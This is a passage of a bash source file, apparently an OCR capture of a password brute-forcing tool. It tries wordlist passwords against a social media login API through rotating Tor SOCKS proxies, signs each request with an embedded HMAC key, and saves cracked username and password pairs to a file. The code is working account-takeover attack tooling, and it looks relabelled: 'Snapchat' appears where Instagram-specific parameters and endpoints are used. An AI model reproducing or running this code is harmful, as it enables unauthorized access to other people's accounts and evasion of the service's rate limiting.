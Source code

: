hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter4++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9054 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then  echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; pid4=$! ; # wait $!;
let startline+=20
let endline+=20
done
}
bf5() {
while [ $counter5 -lt $turn ]; do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)
IFS=$'\n'
for pass in $(sed -n ''$((startline+sumstart))','$endline'p' $wl_pass); do
header='Connection: "close", "Accept": "*/*", "Content-type": "application/x-www-form-urlencoded; charset=UTF-8", "Cookie2": "$Version=1" "Accept-Language": "en-US", "User-Agent": "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
data='{"phone_id":"'$phone'", "_csrftoken":"'$var2'", "username":"'$user'", "guid":"'$guid'", "device_id":"'$device'", "password":"'$pass'", "login_attempt_count":"0"}'
ig_sig="4f8732eb9ba7d1c8e8897a75d6474d4eb3f5279137431b2aafb71fafe2abe178"
IFS=$'\n'
countpass=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1)
hmac=$(echo -n "$data" | openssl dgst -sha256 -hmac "${ig_sig}" | cut -d " " -f2)
useragent='User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"'
let counter5++
printf "\e[1;77mTrying pass (%s/%s)\e[0m: \"%s\"\n" $countpass $count_pass $pass
{(trap '' SIGINT && var=$(curl --socks5-hostname 127.0.0.1:9055 -d "ig_sig_key_version=4&signed_body=$hmac.$data" -s --user-agent 'User-Agent: "Snapchat 10.26.0 Android (18/4.3; 320dpi; 720x1280; Xiaomi; HM 1SW; armani; qcom; en_US)"' -w "\n%{http_code}\n" -H "$header" "https://i.Snapchat.com/api/v1/accounts/login/" | grep -o "logged_in_user\|challenge\|many tries\|Please wait" | uniq ); if [[ $var == "challenge" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n [*] Challenge required\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m";  rm -rf nottested.lst;kill -1 $$ > /dev/null 2>&1 ; elif [[ $var == "logged_in_user" ]]; then printf "\e[1;92m \n [*] Password Found: %s\n" $pass; printf "Username: %s, Password: %s\n" $user $pass >> found.instainsane ; printf "\e[1;92m [*] Saved:\e[0m\e[1;77m found.instainsane \n\e[0m"; rm -rf nottested.lst; kill -1 $$  > /dev/null 2>&1 ; elif [[ $var == "Please wait" ]]; then echo $pass >> nottested.lst ; elif [[ $var == "" ]]; then echo $pass >> nottested.lst ; fi; ) } & done; wait $pid1 > /dev/null 2>&1; wait $pid2 > /dev/null 2>&1 ; wait $pid3 > /dev/null 2>&1 ; wait $pid4 > /dev/null 2>&1; wait $! > /dev/null 2>&1 ;
let startline+=20
let endline+=20
done
}
bf1resume() {
while [ $counter -lt $turn ]; do
startresume=$(grep -n -x "$pass" "$wl_pass" | cut -d ":" -f1) 
startresume1=$((startresume+1))
IFS=$'\n'
for pass in $(sed -n ''$startresume1','$(($token+endline))'p' $wl_pass); do
count_pass=$(wc -l $wl_pass | cut -d " " -f1)